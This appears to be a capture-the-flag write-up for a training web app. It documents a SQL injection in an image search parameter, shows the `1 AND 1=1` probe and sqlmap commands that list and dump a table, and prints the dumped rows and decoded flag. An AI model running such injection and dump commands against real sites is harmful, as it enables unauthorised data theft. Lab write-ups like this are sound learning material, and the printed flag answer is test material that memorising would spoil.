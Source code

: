 # 01_Unsecure_img_search

The GET parameter in the image search form is vulnerable.  


## Method

Go to http://192.168.1.59/?page=searchimg.  
In the search field, search `1 AND 1=1`

## Manipulation

Open terminal (Powershell), run  
```bash
python sqlmap.py --url="http://192.168.1.59/?page=searchimg&id=1&Submit=Submit# --tables
```  

This displays all the databases & their tables.  
Thereafter tables can be dumped  
```bash
python sqlmap.py --url="http://192.168.1.59/?page=searchimg&id=1&Submit=Submit# --dump -T list_images
```  
where `list_images` refers to the table name  

```bash
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
```

Decode flag  
```bash
1928e8083cf461a51303633093573c46 -> albatroz -> F2A29020EF3132E01DD61DF97FD33EC8D7FCD1388CC9601E7DB691D17D4D6188
```  


## Resolve

TBC

### Resources

https://www.hackers-arise.com/post/2017/04/24/database-hacking-part-4-extracting-data-with-sqlmap  
https://www.md5online.org/md5-decrypt.html  
https://passwordsgenerator.net/sha256-hash-generator/  
